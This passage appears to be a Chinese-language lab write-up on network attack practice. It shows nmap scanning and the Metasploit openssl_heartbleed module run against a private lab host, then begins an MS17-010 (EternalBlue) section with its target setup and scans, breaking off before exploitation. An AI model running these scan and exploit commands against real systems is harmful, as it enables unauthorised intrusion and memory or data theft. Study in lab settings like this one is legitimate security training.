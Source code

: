 ![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_11-40-24.png)

3. nmap -O 查看端口8443是否开放

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_11-49-28.png)

4. 使用nmap的ssl-heartbleed.nse扫描查看是否存在漏洞

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_11-54-41.png)

5. 存在漏洞，随后使用msf进行攻击

search heartbleed

use auxiliary/scanner/ssl/openssl_heartbleed

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_11-57-01.png)

set rhosts 192.168.132.133

set rport 8443

set verbose true

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_11-58-44.png)

run

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_12-00-06.png)

渗透成功

## MS17-010漏洞

### 漏洞描述

s17_010 是一种操作系统漏洞，仅影响 Windows 系统中的 SMBv1 服务。这个漏洞是由于 SMBv1 内核函数中的缓冲区溢出而导致的。攻击者可以通过该漏洞控制目标系统，并执行任意代码。这个漏洞通过 445 文件共享端口进行利用，一旦攻击者成功利用该漏洞，就可以在目标主机上植入各种恶意软件，如勒索软件。最近出现的 WannaCry 勒索软件就使用 ms17_010 漏洞来传播和植入勒索代码，将目标系统中的所有文件加密并威胁用户付款。由于该漏洞易受攻击，且已经公开和广泛利用，因此建议 Windows 系统用户及时进行安全更新以避免被攻击。


### 渗透过程

1. 环境搭建

靶机:windows 7(64bit) ->192.168.132.134

攻击者 kali->192.168.132.130

2. 扫描存活IP和端口开放

ping 192.168.132.132，靶机存活

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-33-59.png)

nmap -T4 -A -v -Pn 192.168.132.132进行全面扫描，扫描网段存活IP，以及端口开放情况
